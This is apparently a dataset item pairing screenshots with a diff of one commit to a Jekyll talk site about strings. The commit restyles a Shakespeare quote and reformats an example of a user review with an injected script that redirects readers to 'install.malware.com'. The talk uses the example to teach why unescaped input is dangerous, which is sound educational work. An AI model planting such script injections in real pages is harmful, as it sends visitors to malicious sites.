

Before and after one commit to SamirTalwar/talks, a Jekyll site: the page built from index.md, in a window 1280 px wide and 1400 px high, scrolled down 9338 px. Shown: the whole window, without its empty margins (294-985 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown.

Commit message:
Shakespeare is a special case.

````diff
--- a/css/main.css
+++ b/css/main.css
@@ -167,10 +167,13 @@ a:visited { color: #a0a; }
 /*****************************************************************************/
 
 blockquote {
+    padding: 10px 40px;
+    background: #eee;
+}
+
+.shakespeare {
     font-family: 'kingthings_calligraphica_liLt';
     font-size: 1.5em;
-    padding: 10px 40px;
-    background: #eee;
 }
 
 .twitter-tweet {
--- a/index.md
+++ b/index.md
@@ -55,6 +55,7 @@ That's the length of the string, which itself takes up a fixed number of bytes (
 #### Strings are for humans
 
 > All the world's a stage, and all the men and women merely players. They have their exits and their entrances; And one man in his time plays many parts.
+{: .shakespeare}
 
 You can put quite literally anything into a string (assuming infinite memory). They can accept any valid character, and as many of them as you want. The entire works of Shakespeare will happily sit in a string in a program on your computer, and take up a grand total of six whole megabytes of memory.
 
@@ -424,12 +425,8 @@ Easy. Sorted. Cushty.
 
 Except no. What if one of the reviews looks something like this?
 
-```markup
-I thought this was one of Shakespeare's best plays.
-<script>
-document.location = 'http://install.malware.com/';
-</script>
-```
+> I thought this was one of Shakespeare's best plays.
+  &lt;script&gt;document.location = 'http://install.malware.com/';&lt;/script&gt;
 
 Lovely. Everyone will be redirected to an evil website, and no one will read the other marvellous reviews. Sad faces all around.
 
````
